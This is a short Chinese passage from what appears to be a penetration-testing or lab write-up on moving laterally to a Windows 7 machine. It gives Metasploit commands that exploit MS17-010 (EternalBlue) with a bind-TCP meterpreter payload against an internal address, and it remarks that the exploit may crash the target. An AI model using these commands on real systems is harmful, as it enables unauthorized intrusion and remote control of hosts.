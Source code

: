 确实存在ms17-010

# 横向到win7

## Ms17-010

用msf打ms17-010的时候，修改一下Payload，目标机器可能不出网，需要用正向的payload

```
use windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 10.0.1.7
run
```

![image-20231116150557383](images/23.png)

用exploit/windows/smb/ms17_010_eternalblue，这个虽然可能会打蓝屏，但是其他两个需要管道

## win7信息收集

![image-20231116153208134](images/24.png)
